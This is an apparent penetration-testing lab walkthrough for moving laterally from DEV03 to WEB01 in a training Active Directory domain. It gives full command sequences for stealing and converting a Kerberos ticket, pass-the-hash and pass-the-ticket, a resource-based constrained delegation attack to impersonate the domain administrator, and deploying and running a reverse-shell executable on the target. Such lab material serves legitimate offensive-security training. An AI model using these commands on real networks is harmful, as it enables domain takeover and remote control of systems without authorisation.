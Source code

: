 # Lateral movement from DEV03 to WEB01

Once you have root access on DEV03, there is a Kerberos ticket for user Terence in /tmp (name is krb5cc_XXXXX). If you run BloodHound, you can see that Terence has RBCD on WEB01; however we first need to have a Windows session running in the context of Terence.  

Copy the ticket on your Kali, and convert it to Kirbi format (for later use with Rubeus PassTheTicket):   
`impacket-ticketConverter terence.ccache terence.kirbi`

Then, connect with PsExec on CLIENT03, copy the converted ticket, and import it in memory using Rubeus Pass-the-Ticket (don't use Evil-WinRM here):  
`proxychains impacket-psexec Administrator@172.16.X.Y -no-pass -hashes :<NTLM_ADMIN_CLIENT03>`  
`.\Rubeus.exe ptt /ticket:terence.kirbi # Import ticket into memory`

/!\ If you have ticket issue, please try reset before contacting me, it often happens on this lateral movement.

Then, we can perform the RBCD just like in the PDF lesson:
```ps
. .\PowerView.ps1
. .\Powermad.ps1
New-MachineAccount -MachineAccount EVIL01 -Password $(ConvertTo-SecureString 'Password1' -AsPlainText -Force) -Verbose
Get-DomainComputer EVIL01 # Get the Host SID
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<PUT HERE SID>)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer WEB01 | Set-DomainObject -Verbose -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe hash /password:Password1 # Generate Hash of the machine password
.\Rubeus.exe s4u /user:EVIL01$ /rc4:<HASH OF Password1> /msdsspn:CIFS/web01.cowmotors-int.com /impersonateuser:administrator /ptt
dir \\web01.cowmotors-int.com\C$

.\PsExec64.exe /accepteula \\web01.cowmotors-int.com whoami # Should show administrator and return code 0
cp revshell.exe \\web01.cowmotors-int.com\C$\revshell.exe
.\PsExec64.exe /accepteula \\web01.cowmotors-int.com C:\revshell.exe
```

Or (unless previous garantee 100% working, I don't ensure this technique works, but give it a try), after creating the New-MachineAccount:
`export KRB5CCNAME=terence.ccache`  
`proxychains impacket-rbcd -f EVIL01 -t WEB01 -dc-ip 172.16.DC.IP -k -no-pass cowmotors-int.com\\terence`
`proxychains impacket-getST -impersonate 'administrator' -dc-ip 172.16.DC.IP -spn CIFS/web01.cowmotors-int.com -ts cowmotors-int.com/EVIL01\$:'Password1' -k -no-pass `

TIP: some people reported me they had to reset the lab, maybe issue with the TGT in /tmp. If you have issue, please try this before. Beware of code snippets in the PDF, some hyphens disapeared.  

Then, you can either use Windows' PsExec or export the TGS to use with impacket.

Note : this document is subject to evolution to better fit your needs. We keep in touch ! If you have any question, feel free to contact me on Discord Tamarisk#3723